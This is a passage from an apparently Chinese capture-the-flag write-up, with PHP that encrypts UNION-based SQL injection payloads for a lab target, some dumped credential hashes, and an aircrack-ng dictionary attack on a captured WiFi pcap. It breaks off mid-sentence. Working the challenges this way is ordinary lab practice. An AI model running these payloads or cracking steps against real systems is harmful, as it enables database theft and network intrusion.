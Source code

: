 #### 相关代码

编写相应的加密函数，接下来就是常规的数据库注入

```php
function encode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
    // $data = mencrypt_generic($td,base64_decode(base64_decode($data)));
    $encrypted = mcrypt_generic($td,$data.'hxb2018');
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	return  base64_encode(base64_encode($encrypted));
}
$target="1 and 1=0 union select 1, 2 ,group_concat(name,0x7c,password),4 from stormgroup_member";
// mozhe1|356f589a7df439f6f744ff19bb8092c0,mozhe2|faaed61b9f60a75543923f59b90b2902
//dsan13,813945
$target="1 and 1=0 union select 1, 2 ,group_concat(table_name),4 from information_schema.tables where table_schema='mysql'";
//
$target="1 and 1=0 union select 1, 2 ,group_concat(column_name),4 from information_schema.columns where table_name='notice2'";
//id,title
$target="1 and 1=0 union select 1, 2 ,group_concat(id,0x7c,title),4 from notice2";
echo(encode($target));
```

#### flag截图

{% asset_img 7.png %}

## misc

### 5.welcome

关注公众号获取 `flag`

{% asset_img 8.png %}

#### 6.flow

#### 相关思路及代码

打开流量包发现里面有一个`SSID`为`ctf`的wifi名，而当前数据是通过802.11来进行加密的，所以我们第一步就需要进行爆破。

{% asset_img 9.png %}

从网上找到几个WiFi密码的字典，然后使用`aircrack-ng`来进行爆破：

```bash
aircrack-ng -w wpa-dictionary/huanying-0.txt ctf.pcap
```

{% asset_img 10.png %}

很快就把密码爆破出来了，然后我们通过这个密码将流量包解密，
